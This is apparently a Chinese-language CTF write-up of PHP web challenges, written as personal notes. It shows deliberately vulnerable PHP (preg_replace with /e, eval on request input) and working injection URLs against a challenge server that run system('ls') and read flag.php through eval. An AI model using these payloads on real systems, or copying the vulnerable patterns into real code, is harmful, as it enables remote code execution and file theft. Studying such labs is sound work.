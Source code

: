 # md5

```php+HTML
<?php
highlight_file(__FILE__);
include ("flag.php");
error_reporting(E_ALL & ~E_NOTICE);
if((string)$_POST['param1']!==(string)$_POST['param2'] && md5($_POST['param1'])===md5($_POST['param2'])){
        echo $flag;
    }
?>
```

我又忘了！！！

# dangerous_func1_1

```php+HTML
 <?php
error_reporting(0);
highlight_file(__FILE__);
#include "flag.php";
$key=preg_replace("/flag/e",$_GET["param"],"can_you_get_flag?");
echo $key;
?> can_you_get_?
```

preg_replace — 执行正则表达式的搜索和替换 

搜索subject中匹配pattern的部分， 
以replacement进行替换。

preg_replace函数原型:

mixed preg_replace ( mixed pattern, mixed replacement, mixed subject [, int limit])   

/e 修正符使 preg_replace() 将 replacement 参数当作 PHP
代码,提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误。

查看有哪些函数可以执行系统命令

## system()

```
string system ( string $command [, int &$return_var ] )
```

**$command**为执行的命令，**&return_var**可选，用来存放命令执行后的状态码

**system()函数**执行有回显，将执行结果输出到页面上

## passthru()

```
void passthru ( string $command [, int &$return_var ] )
```

和**system函数**类似，**$command**为执行的命令，**&return_var**可选，用来存放命令执行后的状态码

执行有回显，将执行结果输出到页面上

## exec()

```php
string exec ( string $command [, array &$output [, int &$return_var ]] )
```

$command是要执行的命令

$output是获得执行命令输出的每一行字符串，$return_var用来保存命令执行的状态码（检测成功或失败）

exec()函数执行无回显，默认返回最后一行结果

```php
<?php
	echo exec("whoami")
?>
```

## shell_exec()

```php
string shell_exec(string &command)
```
&command是要执行的命令
shell_exec（）函数默认无回显，通过echo可将执行结果输出到页面

```php
<?php
	echo shell_exec("whoami")
?>
```

http://47.103.13.216:32769/?param=system(%22ls%22)

![1568184475258](assets/1568184475258.png)

得到里面有个flag.php的文件

file() 函数把整个文件读入一个数组中。



利用file

http://47.103.13.216:32769/?param=eval(var_dump(file(%22flag.php%22)))

![1568182524344](assets/1568182524344.png)

# where_is_flag_1

```php+HTML
<?php
error_reporting(0);
include "flag.php";
$a = @$_REQUEST['hello'];
if(!preg_match('/^\w*$/',$a )){
  die('ERROR');
}
eval("var_dump($$a);");
show_source(__FILE__);
?>
```

可变变量，举个栗子

```
$a=hello;
$$a=$hello;
```

超全局变量：PHP 中的许多预定义变量都是“超全局的”，这意味着它们在一个脚本的全部作用域中都可用。

$GLOBALS — 引用全局作用域中可用的全部变量

$GLOBALS 这种全局变量用于在 PHP 脚本中的任意位置访问全局变量（从函数或方法中均可）。

PHP 在名为 $GLOBALS[index] 的数组中存储了所有全局变量。变量的名字就是数组的键。

http://47.103.13.216:32770/?hello=GLOBALS

![1568183643853](assets/1568183643853.png)



# where_is_flag_2

```php
<?php
include "flag.php";
$a =@$_REQUEST['hello'];
@eval( "var_dump($a);");
show_source(__FILE__);
?>
```

http://47.103.13.216:32771/?hello=GLOBALS 不行

http://47.103.13.216:32771/?hello=file(%22flag.php%22) 可行，但是有两个flag，有个是假的

![1568184887084](assets/1568184887084.png)

然后file_get_contents(),fopen(),fread(),fgets()[读单行]，都不行

# find_password_1

啊我又忘了怎么猜出用户名的

假装我猜到了JNCTF，然后爆破，就能拿到flag


